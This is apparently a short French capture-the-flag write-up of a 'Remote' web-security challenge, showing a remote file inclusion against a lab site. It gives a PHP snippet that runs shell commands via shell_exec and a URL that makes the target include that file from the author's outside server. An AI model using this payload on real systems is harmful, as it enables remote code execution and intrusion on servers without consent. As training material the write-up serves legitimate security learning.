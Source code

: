 ## Remote

Ahah, je sais que je vais devoir injecter du code malicieux pour bypass les sécurités mises en places !

Pour tester on peut injecter ça dans l'url

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://www.google.com
```
![remote image](remote.PNG "gooooooooooooooogle")


Maintenant faisons notre injection php

```PHP
<?php
echo shell_exec("ls");
?>
```

je commence par créer un fichier php qui exécute la commande **ls un cat pour voir le contenu des fichiers**
je upload ce fichier sur mon super serveur dans le but d'injecter ce code malicieux hehe.

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://media.alors-la.center/s/0vyufe2p.php
```

![remote image](remote2.PNG "flaaaaaaaaag")



